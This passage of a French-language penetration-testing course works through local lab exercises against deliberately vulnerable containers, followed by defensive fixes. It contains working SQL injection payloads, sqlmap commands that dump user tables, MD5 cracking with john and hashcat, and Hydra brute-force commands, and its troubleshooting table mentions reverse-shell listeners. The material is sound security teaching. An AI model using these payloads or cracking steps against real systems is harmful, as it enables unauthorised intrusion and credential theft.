**Résultat attendu :** La réponse HTTP doit être `200 OK` ou `200`. Le dossier `rendu_labs/jour-01/` est créé.

**Explication :** `docker compose up -d sqli-app` ne démarre que le service cible (pas tous les conteneurs). `curl -I` envoie une requête HEAD pour vérifier que le serveur web est prêt sans télécharger toute la page.

---

### Étape 1 — Trouver les injections manuellement — [T1190](https://attack.mitre.org/techniques/T1190/) Exploit Public-Facing Application

**Objectif :** Confirmer que 3 points d'entrée différents sont vulnérables aux injections SQL.

**Où ?** Terminal 1 — `cd rendu_labs/jour-01`

#### Point 1 — Paramètre `?id=` (numeric)

**Actions :**
1. Requête normale `id=1` → un seul produit
2. Injecter `id=1 OR 1=1` (toujours vrai) → tous les produits
3. Injecter `id=1 AND 1=2` (toujours faux) → aucun produit

**Commande :**
```bash
curl -s "http://localhost:8083/?page=search&id=1" | grep -o "Laptop\|Monitor\|Keyboard"
# → Laptop Pro X  (comportement normal : 1 seul produit)

curl -s "http://localhost:8083/?page=search&id=1%20OR%201=1" | grep -c "<tr>"
# → 6  (tous les produits retournés : injection confirmée)

curl -s "http://localhost:8083/?page=search&id=1%20AND%201=2" | grep -o "Aucun"
# → Aucun produit trouvé  (AND 1=2 = toujours faux)
```

**Résultat attendu :** `1 OR 1=1` retourne 6 produits au lieu d'1. `AND 1=2` retourne "Aucun produit trouvé".

**Explication :** Le paramètre `id` est injecté directement dans une requête SQL numérique : `WHERE id = $id`. `OR 1=1` est toujours vrai → tous les produits. `AND 1=2` est toujours faux → aucun résultat. Ces deux tests confirment que l'entrée utilisateur n'est pas filtrée.

#### Point 2 — Formulaire de login (string injection)

**Actions :**
1. Tester un mauvais mot de passe normal → message d'échec
2. Injecter `admin' --` → bypass du mot de passe
3. Injecter `' OR '1'='1' --` → connexion en tant que tous les utilisateurs

**Commande :**
```bash
curl -s -d "page=login&username=admin&password=wrong" "http://localhost:8083/" | grep "Identifiants"
# → Identifiants incorrects  (comportement normal)

curl -s -d "page=login&username=admin'%20--&password=x" "http://localhost:8083/" | grep "Connecté"
# → Connecté en tant que admin  (bypass du mot de passe réussi)

curl -s -d "page=login&username='%20OR%20'1'='1'%20--&password=x" "http://localhost:8083/" | grep -c "Connecté"
# → 6  (tous les utilisateurs connectés)
```

**Résultat attendu :** `admin' --` se connecte sans mot de passe. `' OR '1'='1' --` connecte 6 utilisateurs.

**Explication :** La requête SQL vulnérable est `WHERE username = '$u' AND password = '$hash'`. Avec `admin' --`, le `'` ferme la chaîne et `--` commente la vérification du mot de passe. `' OR '1'='1'` rend la condition toujours vraie pour tous les utilisateurs.

#### Point 3 — Filtre `?filter=` (LIKE injection)

**Actions :**
1. Filtre normal `john` → 1 utilisateur trouvé
2. Injecter `%' UNION SELECT 1,username,password,email FROM users --` → extrait tous les utilisateurs

**Commande :**
```bash
curl -s "http://localhost:8083/?page=users&filter=john" | grep "<td>" | wc -l
# → 4 (1 utilisateur)

curl -s "http://localhost:8083/?page=users&filter=%25'%20UNION%20SELECT%201,username,password,email%20FROM%20users%20--" | grep "<td>"
# → <td>1</td><td>admin</td>...
```

**Résultat attendu :** La première commande retourne 4 cellules HTML (1 utilisateur). La seconde retourne `<td>` avec les données de tous les utilisateurs.

**Explication :** Le paramètre `filter` est injecté dans `WHERE username LIKE '%$filter%'`. On ferme le LIKE avec `%'`, puis on ajoute `UNION SELECT` pour fusionner les résultats avec la table `users`. `--` commente le reste de la requête. C'est l'injection la plus difficile car elle nécessite la maîtrise de la syntaxe UNION.

> **Checkpoint A :** Les 3 injections fonctionnent. L'application est vulnérable sur tous les points d'entrée.

---

### Étape 2 — Exploitation automatisée avec sqlmap — [T1190](https://attack.mitre.org/techniques/T1190/) Exploit Public-Facing Application

**Objectif :** Extraire automatiquement les données des 6 utilisateurs depuis la base, sans connaître la structure.

**Où ?** Terminal 1 — `cd rendu_labs/jour-01`

**Actions :**
1. Énumérer les tables de la base : `--tables`
2. Énumérer les colonnes de la table `users` : `-T users --columns`
3. Dumper les colonnes `username,password,email,role` : `--dump`

**Commande :**
```bash
sqlmap -u "http://localhost:8083/?page=search&id=1" --tables --batch 2>&1 | tee sqli_tables.txt
# → [2 tables] → products, users
```

**Résultat attendu :**
```
[2 tables]
+----------+
| products |
| users    |
+----------+
```

**Commande :**
```bash
sqlmap -u "http://localhost:8083/?page=search&id=1" -T users --columns --batch
# → [5 columns] → id, username, password, email, role
```

**Résultat attendu :**
```
+-----------+----------+
| Column    | Type     |
+-----------+----------+
| email     | TEXT     |
| id        | INTEGER  |
| password  | TEXT     |
| role      | TEXT     |
| username  | TEXT     |
+-----------+----------+
```

**Commande :**
```bash
sqlmap -u "http://localhost:8083/?page=search&id=1" \
  -T users -C username,password,email,role --dump --batch 2>&1 | tee sqli_dump.txt
# → 6 users extracted (admin, john_doe, jane_dev, supervisor, guest, flag_user)
```

**Résultat attendu :**
```
+------------+----------------------------------+---------------------+------------+
| username   | password                         | email               | role       |
+------------+----------------------------------+---------------------+------------+
| admin      | 5f4dcc3b5aa765d61d8327deb882cf99 | admin@shop.local    | admin      |
| john_doe   | 482c811da5d5b4bc6d497ffa98491e38 | john@shop.local     | user       |
| jane_dev   | e99a18c428cb38d5f260853678922e03 | jane@shop.local     | dev        |
| supervisor | 0d107d09f5bbe40cade3de5c71e9e9b7 | super@shop.local    | supervisor |
| guest      | 098f6bcd4621d373cade4e832627b4f6 | guest@shop.local    | user       |
| flag_user  | 21232f297a57a5a743894a0e4a801fc3 | flag@secret.local   | admin      |
+------------+----------------------------------+---------------------+------------+
```

**Explication :** sqlmap automatise tout le processus : détection du type de SGBD (SQLite), énumération des tables et colonnes, puis extraction des données. Les options `-T` (table) et `-C` (columns) permettent de cibler précisément ce qu'on veut. `--batch` évite les interactions manuelles. `tee` sauvegarde la sortie dans un fichier pour le rapport.

> **Checkpoint B :** 6 utilisateurs extraits avec leurs hashs MD5.

---

### Étape 3 — Craquer les hashs — [T1110.001](https://attack.mitre.org/techniques/T1110/001/) Password Guessing

**Objectif :** Retrouver les mots de passe en clair à partir des hashs MD5 extraits.

**Où ?** Terminal 1 — `cd rendu_labs/jour-01`

#### Méthode 1 : John the Ripper

**Actions :**
1. Créer un fichier `hashes.txt` au format `username:hash`
2. Décompresser la wordlist `rockyou.txt` (première fois)
3. Lancer john avec `--format=raw-md5`
4. Afficher les mots de passe craqués avec `john --show`

**Commande :**
```bash
cat > hashes.txt << 'EOF'
admin:5f4dcc3b5aa765d61d8327deb882cf99
john_doe:482c811da5d5b4bc6d497ffa98491e38
jane_dev:e99a18c428cb38d5f260853678922e03
supervisor:0d107d09f5bbe40cade3de5c71e9e9b7
guest:098f6bcd4621d373cade4e832627b4f6
flag_user:21232f297a57a5a743894a0e4a801fc3
EOF

sudo gunzip /usr/share/wordlists/rockyou.txt.gz 2>/dev/null || true

john --format=raw-md5 hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt 2>/dev/null
john --show --format=raw-md5 hashes.txt
# → admin:password, john_doe:password123, jane_dev:abc123, ...
```

**Résultat attendu :**
```
admin:password
john_doe:password123
jane_dev:abc123
supervisor:letmein
guest:test
flag_user:admin
```

#### Méthode 2 : Recherche en ligne (optionnelle)

```bash
# CrackStation.net ou md5decrypt.net
# 5f4dcc3b5aa765d61d8327deb882cf99 → password
# e99a18c428cb38d5f260853678922e03 → abc123
```

#### Méthode 3 : hashcat (si GPU disponible)

**Actions :**
1. Lancer hashcat avec `-m 0` (MD5), `-a 0` (dictionnaire)
2. Utiliser le même fichier `hashes.txt` et la même wordlist

**Commande :**
```bash
hashcat -m 0 -a 0 --username hashes.txt /usr/share/wordlists/rockyou.txt --force
# → Session... completed (mêmes résultats que john)
```

> **Checkpoint C :** Au moins 3 mots de passe craqués. Le `flag_user` utilise `admin` comme mot de passe — une erreur classique.

**Explication :** Les hashs MD5 sont non salés : le même mot de passe produit toujours le même hash. Une attaque par dictionnaire compare chaque hash de la wordlist (pré-calculé) avec les hashs cibles. Dès qu'une correspondance est trouvée, le mot de passe en clair est révélé. John the Ripper et hashcat automatisent cette comparaison.

---

### Étape 4 — Extraire le flag caché — [T1190](https://attack.mitre.org/techniques/T1190/) Exploit Public-Facing Application

**Objectif :** Trouver le flag CTF caché dans la colonne `secret_flag` de la table `products`.

**Où ?** Terminal 1 — `cd rendu_labs/jour-01`

**Actions :**
1. Dumper les colonnes `name` et `secret_flag` de la table `products`

**Commande :**
```bash
cd rendu_labs/jour-01
sqlmap -u "http://localhost:8083/?page=search&id=1" \
  -T products -C name,secret_flag --dump --batch
# → FLAG{sql_injection_master} trouvé dans Laptop Pro X
```

**Résultat attendu :**
```
+---------------------+--------------------------------+
| name                | secret_flag                    |
+---------------------+--------------------------------+
| Laptop Pro X        | FLAG{sql_injection_master}     |
| Smart Monitor 27"   | NULL                           |
| ...                 | NULL                           |
+---------------------+--------------------------------+
```

**Explication :** sqlmap peut cibler n'importe quelle table et colonne de la base. La colonne `secret_flag` contient le flag CTF uniquement pour le produit "Laptop Pro X". Les autres lignes ont `NULL`. Ce flag peut être inclus dans le rapport de pentest comme preuve d'accès aux données.

---

### Checkpoints

- [ ] Injection trouvée sur les 3 points d'entrée
- [ ] sqlmap a extrait 6 utilisateurs avec hashs
- [ ] john/hashcat a craqué au moins 3 mots de passe
- [ ] Flag `FLAG{sql_injection_master}` trouvé

### 🔒 Contre-mesure ([M1013](https://attack.mitre.org/mitigations/M1013/) Application Developer Guidance + [M1027](https://attack.mitre.org/mitigations/M1027/) Password Policies)

**Objectif :** Neutraliser les 3 points d'injection SQL en une seule stratégie : requêtes préparées PDO partout + bcrypt.

**Où ?** Terminal 1

**Actions :**
1. Remplacer les 3 requêtes vulnérables par des requêtes préparées PDO
2. Re-tester avec sqlmap pour confirmer

**Correction (requêtes préparées + bcrypt) :**

Le principe est le même que pour DVWA : remplacer la concaténation SQL par des requêtes préparées sur les 3 points d'injection, et remplacer `md5()` par `password_hash(..., PASSWORD_BCRYPT)`.

```bash
# Code vulnérable → corrigé :
# Point 1 (id=) :
#   $query = "SELECT * FROM products WHERE id = $id"
#   → $stmt = $db->prepare("SELECT * FROM products WHERE id = ?"); $stmt->execute([$id]);
#
# Point 2 (login) :
#   "WHERE username = '$u' AND password = '$hash'"
#   → $stmt = $db->prepare("SELECT * FROM users WHERE username = ?"); $stmt->execute([$u]);
#     puis password_verify($p, $hash)
#
# Point 3 (filter=) :
#   "WHERE username LIKE '%$filter%'"
#   → $stmt = $db->prepare("SELECT * FROM users WHERE username LIKE ?"); $stmt->execute(["%$filter%"]);
#
# Hachage : md5($password) → password_hash($password, PASSWORD_BCRYPT)

# Vérification après correction :
sqlmap -u "http://localhost:8083/?page=search&id=1" --batch 2>&1 | grep -i "injectable"
# → all tested parameters do not appear to be injectable
```

**Résultat attendu :** sqlmap confirme qu'aucun paramètre n'est injectable après correction. Avec bcrypt, john/hashcat ne peuvent plus craquer les mots de passe en quelques secondes.

**Explication :** Les requêtes préparées PDO séparent le code SQL des données utilisateur — la valeur de `$id` n'est jamais interprétée comme du SQL. bcrypt ajoute un sel aléatoire à chaque mot de passe : même deux utilisateurs avec le même mot de passe auront des hashs différents, rendant les rainbow tables inefficaces. C'est la défense de référence contre les injections SQL.

### Résultat attendu

- [ ] 3 points d'injection trouvés manuellement : `?id=` (numeric), `username` (login), `?filter=` (LIKE)
- [ ] Fichier `sqli_tables.txt` : 2 tables découvertes (`products`, `users`)
- [ ] Fichier `sqli_dump.txt` : 6 utilisateurs extraits avec hashs MD5
- [ ] Fichier `hashes.txt` : 6 hashs prêts pour le cracking
- [ ] Au moins 3 mots de passe craqués avec john (dont `admin:password` et `flag_user:admin`)
- [ ] Flag `FLAG{sql_injection_master}` trouvé dans la table `products`
- [ ] Savoir tester une injection SQL sur 3 types de paramètres différents
- [ ] Maîtriser sqlmap : `--tables`, `--columns`, `--dump` avec options `-T`, `-C`
- [ ] Comprendre le cracking de hashs MD5 avec john et une wordlist
- [ ] Connaître les défenses : requêtes préparées PDO, bcrypt/argon2

---

## LAB-7 — Attaque par force brute avec Hydra

| Durée | Conteneur | Dossier | Technique ATT&CK |
|---|---|---|---|
| 45 min | dvwa (port 8088) | `rendu_labs/jour-01/` | [T1110](https://attack.mitre.org/techniques/T1110/) Brute Force |

### Contexte métier

40% des incidents de cybersécurité impliquent des identifiants faibles ou volés (Verizon DBIR 2024). Dans un test de pénétration, l'auditeur teste systématiquement la robustesse des mots de passe contre une attaque par dictionnaire. **Hydra** est l'outil de référence pour automatiser ces tests — utilisé par les pentesters comme par les équipes SOC pour auditer leurs propres annuaires.

**Fonctionnement :** Hydra essaie des couples `login:password` contre un service (HTTP, SSH, FTP...) jusqu'à trouver une correspondance. Le taux de réussite dépend de la qualité de la wordlist.


**Fig 5d** — Attaque par force brute avec Hydra : itération de couples login:password depuis une wordlist jusqu'à obtenir un `302 Found` (connexion réussie) sur DVWA.

### Prérequis

**Objectif :** Vérifier que le cookie de session DVWA est toujours valide avant de lancer Hydra.

**Où ?** Terminal 1

**Actions :**
1. Envoyer une requête HEAD sur `vulnerabilities/brute/` avec le cookie de session DVWA
2. Vérifier que le code HTTP est 200

**Commande :**
```bash
cd rendu_labs/jour-01
curl -s -b /tmp/dvwa_cookie.txt -o /dev/null -w "%{http_code}" "http://localhost:8088/vulnerabilities/brute/"
# → 200
```

**Résultat attendu :** `200` — la session DVWA est toujours active. Si le cookie a expiré, relancer la commande du LAB-2.

**Explication :** `-o /dev/null` ignore le corps de la réponse, `-w "%{http_code}"` n'affiche que le code HTTP. Un code `200` signifie que la page est accessible avec le cookie. Un code `302` pourrait indiquer une redirection vers la page de login (session expirée).

---

### Étape 1 — Comprendre le problème : CSRF bloque Hydra

**Pourquoi Hydra ne marche pas sur `login.php` ?** DVWA v1.10+ protège son formulaire de login avec un **token CSRF** (`user_token`) qui change à chaque requête. Hydra ne sait pas extraire un token dynamique — il envoie toujours la même chaîne POST.

**Solutions :**
- **❌ `login.php`** → CSRF token obligatoire → Hydra ne peut pas distinguer succès/échec
- **✅ `vulnerabilities/brute/`** → pas de CSRF (accessible après login avec le cookie) → Hydra fonctionne
- **✅ `sqli-app` (port 8083)** → pas de CSRF du tout

On utilise `vulnerabilities/brute/` avec le cookie de session DVWA (déjà obtenu au LAB-2).

### Étape 2 — Inspecter le formulaire cible — [T1110](https://attack.mitre.org/techniques/T1110/) Brute Force

**Objectif :** Vérifier la structure du formulaire de la page brute force et capturer le message d'échec.

**Où ?** Terminal 1 — `cd rendu_labs/jour-01`

**Actions :**
1. Extraire les noms des champs du formulaire
2. Soumettre un mauvais mot de passe pour récupérer le message d'échec

**Commande :**
```bash
curl -s -b /tmp/dvwa_cookie.txt "http://localhost:8088/vulnerabilities/brute/" \
  | grep -o 'name="[^"]*"'
# → name="username"  name="password"  name="Login"

curl -s -b /tmp/dvwa_cookie.txt \
  -d "username=admin&password=mauvais&Login=Login" \
  "http://localhost:8088/vulnerabilities/brute/" | grep -oi "failed\|wrong"
# → Login failed
```

**Résultat attendu :** Champs `username`, `password`, `Login`. Message d'échec = `Login failed`.

**Explication :** La page `vulnerabilities/brute/` est un formulaire sans CSRF, réservé aux tests de brute force. On utilise le cookie de session DVWA (`/tmp/dvwa_cookie.txt`) pour être authentifié. Hydra a besoin de 3 infos : l'URL, la chaîne POST (avec `^USER^`/`^PASS^`), et le marqueur d'échec.

---

### Étape 3 — Lancer Hydra — [T1110](https://attack.mitre.org/techniques/T1110/) Brute Force

**Objectif :** Trouver le mot de passe `admin` par dictionnaire via `vulnerabilities/brute/`.

**Où ?** Terminal 1 — `cd rendu_labs/jour-01`

**Actions :**
1. Extraire le PHPSESSID du cookie pour le passer à Hydra
2. Lancer Hydra sur la page brute force avec une petite wordlist (10 mots)
3. Vérifier qu'Hydra trouve `password`

**Commande :**
```bash
cd rendu_labs/jour-01
SESSID=$(grep PHPSESSID /tmp/dvwa_cookie.txt | awk '{print $NF}')

hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 8088 \
  localhost http-post-form \
  "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\:PHPSESSID=$SESSID;security=low:Login failed" \
  -V 2>&1 | tee hydra_dvwa.txt
# → [8088][http-post-form] host: localhost   login: admin   password: password
# → 1 of 1 target successfully completed, 1 valid password found
```

> 💡 **Wordlist :** `rockyou.txt` contient ~14M mots. Pour un test rapide, créez une mini-wordlist : `printf "password\n123456\nadmin" > /tmp/mini.txt` et utilisez `-P /tmp/mini.txt`.

**Résultat attendu :**
```
[8088][http-post-form] host: localhost   login: admin   password: password
1 of 1 target successfully completed, 1 valid password found
```

**Explication :**
- `-l admin` : login fixe
- `-P` : wordlist (dictionnaire de mots de passe)
- `-s 8088` : port non standard
- `http-post-form` : module pour formulaire POST (le formulaire de la brute force page utilise POST)
- `H:Cookie\:PHPSESSID=...;security=low` : passe le cookie de session via un en-tête HTTP personnalisé (le `\:` échappe le `:` dans `Cookie: valeur`, car Hydra utilise `:` comme séparateur de champs — sans ce backslash, Hydra croirait que `Cookie` est la fin du module et planterait)
- `:Login failed` : si la réponse contient "Login failed" → tentative échouée
- `-V` : affiche chaque tentative
- `tee hydra_dvwa.txt` : sauvegarde le résultat

> **Checkpoint :** Hydra trouve `password` en quelques secondes. Un mot de passe trivial est compromis.

---

### Étape 4 — Test multi-logins — [T1110](https://attack.mitre.org/techniques/T1110/) Brute Force

**Objectif :** Tester plusieurs noms d'utilisateur avec la même wordlist.

**Où ?** Terminal 1 — `cd rendu_labs/jour-01`

**Actions :**
1. Créer une liste de logins : `admin`, `gordonb`, `1337`, `pablo`, `smithy`
2. Lancer Hydra avec `-L` (liste de logins) et `-F` (s'arrêter au premier trouvé)

**Commande :**
```bash
cd rendu_labs/jour-01
SESSID=$(grep PHPSESSID /tmp/dvwa_cookie.txt | awk '{print $NF}')
echo -e "admin\ngordonb\n1337\npablo\nsmithy" > /tmp/logins.txt

hydra -L /tmp/logins.txt -P /usr/share/wordlists/rockyou.txt \
  -s 8088 localhost http-post-form \
  "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\:PHPSESSID=$SESSID;security=low:Login failed" \
  -F -V 2>&1 | tee hydra_multi.txt
# → [8088][http-post-form] host: localhost   login: admin   password: password
# → 1 of 1 target successfully completed, 1 valid password found
```

**Résultat attendu :**
```
[8088][http-post-form] host: localhost   login: admin   password: password
1 of 1 target successfully completed, 1 valid password found
```

**Explication :** `-L` (majuscule) charge une liste de logins depuis un fichier. `-F` arrête Hydra dès qu'un couple valide est trouvé. Les logins (`admin`, `gordonb`, `1337`, `pablo`, `smithy`) sont ceux extraits de la base via sqlmap au LAB-4. Le cookie de session est passé via `H:Cookie\:...`. Les options facultatives (`H=...`) se placent **avant** la chaîne d'échec, séparées par `:`.

> **Checkpoint :** Quel que soit le login testé, Hydra trouve le couple valide `admin:password`. Le mot de passe est le maillon faible.

---

### 🔒 Contre-mesure ([M1036](https://attack.mitre.org/mitigations/M1036/) Account Use Policies + [M1027](https://attack.mitre.org/mitigations/M1027/) Password Policies)

**Objectif :** Bloquer les attaques par force brute en limitant le nombre de tentatives avec fail2ban.

**Où ?** Terminal 1

**Actions :**
1. Installer fail2ban dans le conteneur DVWA
2. Créer une règle de bannissement pour le login DVWA (5 échecs → banni 15 min)
3. Vérifier que la règle est active
4. Re-tester Hydra pour confirmer le blocage

> ⚠️ **Piège :** La brute force page de DVWA (`vulnerabilities/brute/`) retourne **HTTP 200** même en cas d'échec (elle réaffiche le formulaire avec le message "Login failed"). Elle ne retourne **pas** de 401 (Unauthorized). Le filtre `apache-auth` de fail2ban (qui cherche des 401 dans `error.log`) ne détecterait **jamais** les échecs. Il faut un **filtre personnalisé** qui surveille les requêtes POST vers `/vulnerabilities/brute/` dans le `access.log`.

**Commande :**
```bash
docker exec dvwa-target bash -c "apt-get update && apt-get install -y fail2ban"
# → fail2ban already installed / installing...

# Créer un filtre personnalisé — détecte les POST vers la page brute force
docker exec dvwa-target bash -c "cat > /etc/fail2ban/filter.d/dvwa-brute.conf << 'EOF'
[Definition]
failregex = ^<HOST> .* POST /vulnerabilities/brute/ HTTP/1\.[01]\" 200
ignoreregex =
EOF"

docker exec dvwa-target bash -c "cat > /etc/fail2ban/jail.local << 'EOF'
[apache-dvwa]
enabled  = true
port     = http,https
filter   = dvwa-brute
logpath  = /var/log/apache2/access.log
maxretry = 5
findtime = 600
bantime  = 900
EOF
fail2ban-client reload"
# → Restarting fail2ban: ok.

docker exec dvwa-target bash -c "fail2ban-client status apache-dvwa"
# → Status for the jail: apache-dvwa  |  Currently banned: 0
```

**Résultat attendu :** `fail2ban-client status` confirme que la règle est active. Après 5 tentatives échouées, Hydra reçoit une erreur `connection refused` — l'IP est bannie.

**Explication :** fail2ban surveille les logs Apache (`/var/log/apache2/access.log`). Le filtre `dvwa-brute` repère chaque requête POST vers `/vulnerabilities/brute/` retournant HTTP 200 (tentative de connexion). Quand il détecte 5 POSTs (`maxretry=5`) en 10 minutes (`findtime=600`), il crée une règle iptables qui bloque l'IP attaquante pendant 15 minutes (`bantime=900`). Le brute-force est neutralisé à l'échelle réseau, indépendamment de l'application.

### Résultat attendu

- [ ] Champs du formulaire identifiés : `username`, `password`, `Login`
- [ ] Message d'échec identifié : `Login failed`
- [ ] Fichier `hydra_dvwa.txt` : Hydra a trouvé le couple `admin:password`
- [ ] Fichier `hydra_multi.txt` : test multi-logins avec `-L` et `-F`
- [ ] Comprendre le fonctionnement d'Hydra : module `http-post-form`, variables `^USER^`/`^PASS^`, marqueur d'échec
- [ ] Savoir tester plusieurs logins avec `-L` et utiliser `-F` pour s'arrêter au premier résultat
- [ ] Connaître les défenses : fail2ban, politique de mots de passe, rate-limiting

---

## Synthèse du chapitre

Ce chapitre vous a fait parcourir les **7 phases d'une attaque web complète**, de la conception du plan à la défense :

| Lab | Attaque | Compétence acquise | ATT&CK |
|-----|---------|-------------------|--------|
| LAB-1 | Conception | Plan d'attaque ATT&CK Navigator | [TA0043](https://attack.mitre.org/tactics/TA0043/) Reconnaissance → [TA0005](https://attack.mitre.org/tactics/TA0005/) Stealth |
| LAB-2 | Scan + énumération | nmap, gobuster | [TA0043](https://attack.mitre.org/tactics/TA0043/) Reconnaissance |
| LAB-3 | XSS (Reflected + Stored) | Injection JavaScript, vol cookie | [T1189](https://attack.mitre.org/techniques/T1189/) Drive-by Compromise |
| LAB-4 | SQLi automatique | sqlmap, dump base | [T1190](https://attack.mitre.org/techniques/T1190/) Exploit Public-Facing App |
| LAB-5 | Command Injection + Reverse Shell | Shell interactif, Meterpreter | [T1203](https://attack.mitre.org/techniques/T1203/) Exploitation for Client Execution |
| LAB-6 | SQLi avancée + Cracking | 3 points d'injection, john | [T1190](https://attack.mitre.org/techniques/T1190/) Exploit Public-Facing App + [T1110](https://attack.mitre.org/techniques/T1110/) Brute Force |
| LAB-7 | Brute-force | Hydra, dictionnaire | [T1110](https://attack.mitre.org/techniques/T1110/) Brute Force |

**Dans un pentest réel**, ces techniques s'enchaînent : on scanne → on trouve une vulnérabilité → on l'exploite → on extrait des données → on craque les mots de passe. Chaque étape correspond à une tactique ATT&CK et doit être documentée dans le rapport.

**Message clé :** Toutes ces attaques se corrigent avec les bonnes pratiques de code (requêtes préparées, échappement HTML, disable_functions) et les outils de durcissement (WAF, fail2ban, bcrypt). La défense en profondeur combine code sécurisé + périmètre durci + détection.

---

## Dépannage rapide

| Problème | Cause probable | Solution |
|---|---|---|
| `curl: (56) Recv failure: Connection reset` | Conteneur pas encore prêt | `docker compose logs dvwa` pour voir l'avancement, attendre quelques secondes |
| `curl: (7) Failed to connect` | Conteneur non démarré | `docker compose ps` pour vérifier l'état, `docker compose up -d` pour relancer |
| Connexion DVWA : "Login failed" | Session expirée ou cookie corrompu | Relancer : `curl -s -c /tmp/dvwa_cookie.txt -d "username=admin&password=password&Login=Login" "http://localhost:8088/login.php"` |
| `sqlmap` ne trouve aucun paramètre injectable | Cookie invalide ou `security` != low | Vérifier `/tmp/dvwa_cookie.txt` avec `cat /tmp/dvwa_cookie.txt` — doit contenir `security=low` |
| Reverse shell ne se connecte pas | Mauvaise IP ou firewall bloque | `ip addr show docker0` pour trouver l'IP hôte ; `sudo ufw disable` si le firewall local bloque |
| Reverse shell : connexion refusée | Écouteur nc pas lancé | Lancer d'abord `nc -lvnp 4444` **dans un terminal séparé**, **avant** le payload |
| `docker: permission denied` | Utilisateur pas dans le groupe docker | `sudo usermod -aG docker $USER` puis **fermer/rouvrir** la session |
| Port déjà utilisé (8088, 8083...) | Conflit avec service local | `sudo lsof -i :8088` pour identifier le processus, `sudo systemctl stop <service>` |
| `grep: 5` au lieu de `→ 5` | Sortie attendue non formatée | C'est normal — seul le chiffre compte (le commentaire `→` n'est pas produit par grep) |

## Points clés à retenir

- **Planifier avant d'exécuter** : un plan ATT&CK complet guide chaque étape du pentest
- **MITRE ATT&CK** : chaque attaque → ID Txxxx ([T1046](https://attack.mitre.org/techniques/T1046/) Network Service Discovery, [T1189](https://attack.mitre.org/techniques/T1189/) Drive-by Compromise, [T1190](https://attack.mitre.org/techniques/T1190/) Exploit Public-Facing App, [T1059.004](https://attack.mitre.org/techniques/T1059/004/) Unix Shell)
- Les 14 tactiques couvrent le cycle complet d'une cyberattaque
- **DVWA** expose les 4 familles de vulnérabilités web
- **XSS vole des sessions**, **SQLi vole des données**, **CMDi donne un shell**
- **Reverse shell** : toujours vérifier que la cible peut joindre votre IP Kali (docker0 = 172.17.0.1)

## Pour aller plus loin

- [MITRE ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/)
- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [DVWA GitHub](https://github.com/digininja/DVWA)
- TryHackMe : [Jr Penetration Tester Path](https://tryhackme.com/path/jr-penetration-tester) — room [DVWA](https://tryhackme.com/room/dvwa)

---


